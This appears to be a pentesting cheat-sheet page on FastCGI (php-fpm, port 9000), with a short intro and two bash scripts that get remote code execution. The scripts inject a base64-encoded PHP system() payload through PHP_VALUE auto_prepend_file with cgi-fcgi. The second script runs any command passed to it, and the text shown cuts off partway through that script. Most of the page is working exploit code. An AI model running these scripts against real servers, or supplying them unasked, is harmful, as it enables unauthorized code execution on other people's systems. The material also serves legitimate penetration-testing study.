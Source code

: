 [9000 - Pentesting FastCGI](https://book.hacktricks.xyz/network-services-pentesting/9000-pentesting-fastcgi)

[**#Basic Information**]

If you want to **learn what is FastCGI** check the following page:
[disable_functions bypass - php-fpm/FastCGI](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass/disable_functions-bypass-php-fpm-fastcgi)
By default **FastCGI** run in **port** **9000** and isn't recognized by nmap. **Usually** FastCGI only listen in **localhost**.

[**#RCE**]

It's quite easy to make FastCGI execute arbitrary code:
```sh
#!/bin/bash

PAYLOAD="<?php echo '<!--'; system('whoami'); echo '-->';"
FILENAMES="/var/www/public/index.php" # Exisiting file path

HOST=$1
B64=$(echo "$PAYLOAD" | base64)

for FN in $FILENAMES; do
    OUTPUT=$(mktemp)
    env -i \
      PHP_VALUE="allow_url_include=1"$'\n'"allow_url_fopen=1"$'\n'"auto_prepend_file='data://text/plain\;base64,$B64'" \
      SCRIPT_FILENAME=$FN SCRIPT_NAME=$FN REQUEST_METHOD=POST \
      cgi-fcgi -bind -connect $HOST:9000 &> $OUTPUT

    cat $OUTPUT
done
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`vim ./exploit.sh`:
```sh
#!/bin/bash

HOST=$1
PORT=$2
COMMAND=$3

# Creating the payload with the specified command
PAYLOAD="<?php echo '<!--'; system('$COMMAND'); echo '-->';"

# Path to the existing file
FILENAMES="/var/www/html/index.php"

# Encode the payload in base64
B64=$(echo "$PAYLOAD" | base64)

# Loop for each specified file
for FN in $FILENAMES; do
    OUTPUT=$(mktemp)  # Create a temporary file for the output

    # Execute the CGI command with modified environment variables
    env -i \
      PHP_VALUE="allow_url_include=1"$'\n'"allow_url_fopen=1"$'\n'"auto_prepend_file='data://text/plain;base64,$B64'" \
      SCRIPT_FILENAME=$FN \
      SCRIPT_NAME=$FN \
      REQUEST_METHOD=POST \
```